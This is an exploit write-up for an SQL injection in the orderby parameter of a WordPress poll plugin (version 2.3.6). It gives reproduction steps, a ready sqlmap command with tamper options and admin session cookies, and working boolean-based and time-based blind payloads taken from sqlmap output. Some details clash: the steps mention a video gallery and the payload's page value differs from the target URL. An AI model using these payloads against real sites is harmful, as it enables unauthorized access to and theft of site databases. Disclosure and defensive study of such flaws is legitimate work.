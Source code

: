 # Exploit Title: WordPress Poll Plugin SQL Injection 
# Date: 2024-07-06
# Exploit Author: tmrswrr
# Category : Webapps
# Vendor Homepage: https://total-soft.com/wp-poll/
# Version 2.3.6

## Steps to Reproduce:

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Poll` > `Create Pool` > `Use Theme` and save it.
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll-builder&tsp-id=1`

2. After saving, navigate back to `TS Video Gallery` and click the title:
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc`

3. Search for the `orderby` parameter.

## SQLMAP Command:

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc" \
--batch \
--dbms=mysql \
--thread=10 \
--no-cast \
--random-agent \
-v 3 \
--tamper="between,randomcase,space2comment" \
--level=5 \
--risk=3 \
-p orderby \
--cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|e111b736b22043864d0f8ea6da823ca00768a110af4da612c555add1979839d1; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|173622110c7f3812695b26c96ba4905a7c760ac41e37645150dd4869ae884c4b; wordpress_test_cookie=WP Cookie check; wp-settings-time-1=1720266472"

---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
